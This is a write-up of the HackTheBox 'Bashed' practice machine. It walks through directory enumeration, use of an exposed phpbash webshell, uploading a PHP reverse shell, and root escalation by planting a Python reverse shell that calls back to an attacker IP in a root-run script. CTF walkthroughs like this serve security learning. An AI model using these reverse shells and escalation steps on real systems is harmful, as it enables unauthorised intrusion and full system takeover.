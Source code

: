 ```yaml
---
layout: page
title: HackTheBox Bashed Writeup
---
```


Bashed is an easy-medium level machine from HackTheBox. In this writeup I use dirbuster to look at directories and file names within the website. Knowledge of basic enumeration, and Linux systems should be known; by doing this machine, I learned how to create reverse shells, how to transfer files between an attacker's/victim's machine, and how webshells work.

### Enumeration
Doing an nmap scan: ```nmap -Pn --script vuln 10.10.10.68``` will show the following:

![image](https://user-images.githubusercontent.com/41026969/56518515-afcdef80-650d-11e9-88ec-e09674852291.png)

Checking out the website:

![image](https://user-images.githubusercontent.com/41026969/56518745-38e52680-650e-11e9-98d4-8dffe729e588.png)

So on the front page there's something that the author/creator put called ```phpbash```. Apprently it helps with pentesting, clicking the arrow goes to another page where the author puts a link to a github: ```https://github.com/Arrexel/phpbash```

So from the nmap scan, we see that there are some interesting directories listed on the website. We can do further scans and see more directories and files using Dirbuster. I used Dirbuster's default wordlist ```directory-list-lowercase-2.3-small.txt```. This wordlist can be found under ```/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt```.

Dirbuster shows us some more interesting directories and files:

![image](https://user-images.githubusercontent.com/41026969/56519789-eb1ded80-6510-11e9-91f2-94c1ddc8e769.png)

Poking around and seeing the different directories and files, I eventually come across phpbash (what the github like was about) and it seems like a shell within the website at ```10.10.10.68/dev/phpbash.php```. Doing a quick ```whoami``` says I'm ```www-data``` which I suppose means I have user level access within this website.

Shown below is a picture of the shell within the website:

![image](https://user-images.githubusercontent.com/41026969/56520286-11905880-6512-11e9-99be-fb17d4e2bdef.png)

### Exploitation (and some more enumeration)
Upon discovering this shell and having user level access, I look around the box and see what files I have access to. 

##### Getting the user flag
I eventually wander into ```/home/``` and discover that there's a couple users listed: ```arrexel``` and ```scriptmanager```. Going into ```arrexel``` I see that there's a user flag!

As I'm going through each page carefully (doing a full ```ls -la``` check) I discover that if you go up one directory (from the one where you started), and go into ```uploads```, we have read, write, and execute permissions. Here's a picture of what is shows:

![image](https://user-images.githubusercontent.com/41026969/62765767-d2552b80-ba5e-11e9-8bf8-b37c771b27fe.png)

Since we have write permissions, we can upload things into this directory and get an actual shell. My plan is:

1. Create php code for a reverse shell that will be ready to use on the target host (we will upload it to target host)
2. Use ```python -m SimpleHTTPServer``` (it automatically uses port ```8000```) to communicate with target host
3. Using the simple http server, upload the php code
4. Run php code which will attempt to communicate with our local computer
5. Run ```ncat -ncvlp 4444``` (this will listen on port 4444)

This should get us a shell. The steps are explained more in detail (with some pictures).

For the first step, I used [pentestmonkey's php code](http://pentestmonkey.net/tools/web-shells/php-reverse-shell). You need to modify the php code to your IP and the port you'll be using on your simple http server.

The second step is straight forward, I just ran ```python -m SimpleHTTPServer```.

For the third step, we'd need to utilize ```wget``` which is a command to retrieve web content (like our SimpleHTTPServer), you'd also need to do it on the ```uploads``` directory on the website. You'd also need to give the direct link to the file you want to upload. Here's a visualization:

![image](https://user-images.githubusercontent.com/41026969/62768134-37f7e680-ba64-11e9-8915-04441c502b2d.png).

Assuming your wget command has the correct ip/port, the file should've been uploaded.

For the fourth step, we'd need to go directly to the page where the php code is stored (```10.10.10.68/uploads/[name of code]```) which leads to the fifth step of creating a listener on the port you put in the php file. (for example I put port 4444 on the code so to set up a listener, I'd do ```nc -nvlp 4444``` on my local terminal. 

If everything goes fine, you should get a response with a shell on your local terminal!

So to set up the shell better (and allow for potential escalation), I did ```python -c "import pty; pty.spawn('/bin/bash');"```. 

Doing an ```ls -la``` check reveals something interesting toward the bottom, there's a directory by someone named ```scriptmanager```

![image](https://user-images.githubusercontent.com/41026969/62770336-d6864680-ba68-11e9-8153-25473e4adcc4.png)

Doing ```sudo -l``` reveals we can run things as scriptmanager!

Now we can do ```sudo -u scriptmanager /bin/bash``` to get the shell as scriptmanager and thus allowing us to easier run commands as scriptmanager.

Going into that interesting directory, ```scripts``` we see there are two files:

![image](https://user-images.githubusercontent.com/41026969/62771062-519c2c80-ba6a-11e9-888e-d18359a9e6cf.png)

Looking at both, it seems that the python file writes to the text file which is owned by ```root```... So even though we edit it as scriptmanager (and thus own it) it still becomes root.

Using pentestmonkey's python reverse shell code and inserting it into the python code, when root runs that code again it will run the extra python code and we could potential gain a shell.

So similar to earlier, we edit the python file to include the reverse shell then we attempt to connect back to it using ```nc```.

Here's the python code with the extra code:
```
import socket, subprocess, os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.2",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])

f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

I use the same concept from earlier with the python SimpleHTTPServer to upload the new python file and after I set up the netcat listener: ```nc -nvlp 4444```. About a minute later, root ran the code and we we're able to get a root shell!

Looking around I eventually got the root flag!

### Flags
User: ```/home/arrexel/user.txt```

Root: ```/root/root.txt ```
